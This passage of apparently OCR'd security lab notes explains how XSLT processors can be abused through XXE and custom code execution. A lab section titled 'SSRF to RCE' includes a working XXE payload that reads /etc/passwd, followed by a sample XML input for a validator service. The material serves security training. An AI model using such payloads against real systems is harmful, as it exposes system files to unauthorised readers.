 ![](./assets/39.png)





##### Extending XSLT Attacks

Of course, in the real world, things might get more difficult. Some functions might be disallowed, but some might be left uncaught, so again working with documentation might help you to identify a severe vulnerability. Also, XSLT parsers may be vulnerable to XXE vulnerabilities in the same way as all other XML parsers.

When responding to XSL:INCLUDE directives, you might also try to respond with XML that contains an XXE payload. Moreover, XSLT engines might be able to execute custom code, which results in RCE!



----

## Labs

### Lab1: SSRF to RCE

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<order>
<product>1234</product>
<count>&xxe;</count>
<contact>User 1</contact>
<account>Admin@123</account>
</order>
```



An XML Validator application is available on port 5000.

Send the following XML snippet for validation:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<parent>
    <child>
        <name>Test Name</name>
        <description>Test Description</description>
    </child>
</parent>
```
